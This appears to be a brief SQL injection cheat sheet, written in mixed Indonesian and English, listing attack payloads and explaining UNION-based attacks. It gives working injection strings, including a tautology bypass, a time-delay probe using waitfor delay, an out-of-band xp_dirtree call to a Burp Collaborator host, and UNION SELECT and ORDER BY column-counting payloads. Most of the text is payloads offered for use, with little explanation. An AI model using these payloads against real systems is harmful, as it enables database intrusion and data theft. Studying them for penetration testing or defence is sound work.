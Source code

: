 # SQL Injection

## Payload
```
'
' OR 1=1--
ASCII(97)
'; waitfor delay ('0:00:20')--
exec master..xp_dirtree'//asdfdagffdshsdfgadfgadfgaf.burpcollaborator.net/a'
```

## UNION Attack
Syarat:
  - The individual queries must return the same number of columns.
  - The data types in each column must be compatible between the individual queries.

Untuk melancarkan UNION attack harus memenuhi 2 syarat diatas. Dari syarat2 diatas timbullah pertanyaan:
  - How many columns are being returned from the original query?
  ```
  'UNION SELECT NULL,NULL,n--, dimana n adalah jumlah kolom
  'ORDER BY 1/2/n--, dimana n adalah jumlah kolom
  ```
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query?



